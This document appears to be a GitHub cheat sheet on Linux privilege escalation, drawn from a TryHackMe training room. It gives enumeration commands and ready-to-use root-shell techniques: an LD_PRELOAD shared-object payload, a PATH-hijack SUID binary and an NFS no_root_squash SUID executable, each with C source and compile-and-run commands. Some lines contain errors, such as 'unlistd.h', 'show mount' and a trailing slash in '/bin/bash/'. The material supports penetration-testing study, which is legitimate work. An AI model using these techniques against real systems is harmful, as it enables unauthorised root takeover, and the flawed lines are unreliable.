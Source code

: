 # Linux Privilege Escalation

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Check for Kernel Exploits

```
uname -r
```
**************************************
## Check for SUID or SGID Bits Set
```
find / -type f -perm -04000 -ls 2>/dev/null
```
**************************************
## Check Capabilities
```
getcap -r / 2>/dev/null
```
**************************************
## Leverage LD_PRELOAD

Check for LD_PRELOAD (with env_keep option)
```
sudo -l
```

Write a simple C code compiled as a share object (.so extension) file

* The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Save this code as shell.c and compile it using gcc into a shared object file using the following parameters
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**************************************
## PATH

```
echo $PATH
```
* What folders are located under $PATH?
* Does your current user have write privileges for any of these folders?
* Can you modify $PATH?
* Is there a script/application you can start that will be affected by this vulnerability?

Example Script: 
```
#include<unlistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("[BINARY]");
}
```
```
gcc path_exp.c -o path -w
```
```
chmod u+s path
```

Search for writable directories:
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
To make a writable directory under $PATH:
```
export PATH=/tmp:$PATH
```
```
cd /tmp
```
```
echo "/bin/bash/" > [BINARY]
```
```
chmod 777 [BINARY]
```
```
./path
```
**************************************
## Network File Sharing (NFS)

If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
```
cat /etc/exports
```

Enumerate mountable shares:
```
show mount -e [TARGET-IP]
```

Mount one of the “no_root_squash” shares to attack machine and start building executable:
```
mkdir /tmp/[YOUR-DIRECTORY]
```
```
mount -o rw [TARGET-IP]:[SHARE-DIRECTORY] /tmp/[YOUR-DIRECTORY]
```

Set SUID bits with a simple executable that will run /bin/bash on the target system: (nfs.c)
```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Compile the code:
```
gcc nfs.c -o nfs -w
```
```
chmod +s nfs
```
```
./nfs
```

**************************************
## Reference
* https://tryhackme.com/room/linprivesc
